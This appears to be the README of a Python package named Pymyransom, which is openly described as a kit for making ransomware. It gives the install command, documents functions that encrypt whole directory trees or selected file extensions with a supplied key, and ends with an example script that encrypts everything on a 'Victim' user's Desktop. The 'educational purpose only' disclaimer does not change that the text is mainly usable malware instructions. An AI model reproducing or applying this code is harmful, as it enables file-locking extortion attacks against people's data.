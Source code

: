 # Pymyransom

## New in v0.4.1
Updated description

## Before Introducing

PYMYRANSOM **ONLY** CAN BE USED FOR EDUCATIONAL PURPOSE!!!

## What is Pymyransom?

Pymyransom is inspired by https://github.com/marcosValle/RansPy/blob/master/enc.py, I changed this code for making Ransomwares.

## How to install Pymyransom?

To install pymyransom, please type 
```pip install pymyransom```.

## How to use Pymyransom?

### makeMyRansomware

Usage : ransomware_name = makeMyRansomware(your_extension, key, username, passFile)\
\
your_extension = ".Example" : Encryption Extension\
key = b'keyfor16bytes123' : Binary key for encryption\
username=getpass.getuser() : PC's username\
passFile=None : Pass a specific file

### Encryptor

Usage : ransomware_name.Encryptor(startPath)\
startPath : Path to encrypt

### Decryptor

Usage : ransomware_name.Decryptor(startPath)\
\
startPath : Path to decrypt

### Encrypt_Some_Ext

Usage : ransomware_name.Encrypt_Some_Ext(startPath)

Encrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Decrypt_Some_Ext

Usage : ransomware_name.Decrypt_Some_Ext(startPath)

Decrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Example Code

```python
import pymyransom
Victim = pymyransom.makeMyRansomware(your_extension=".Example")
startpath = 'c:\\Users\\'+Victim.username+'\\Desktop\\**' #Used glob to encrypt all files
Victim.Encryptor(startpath)
```

## Special Thanks
https://github.com/marcosValle/, https://github.com/kevin5871/, And you!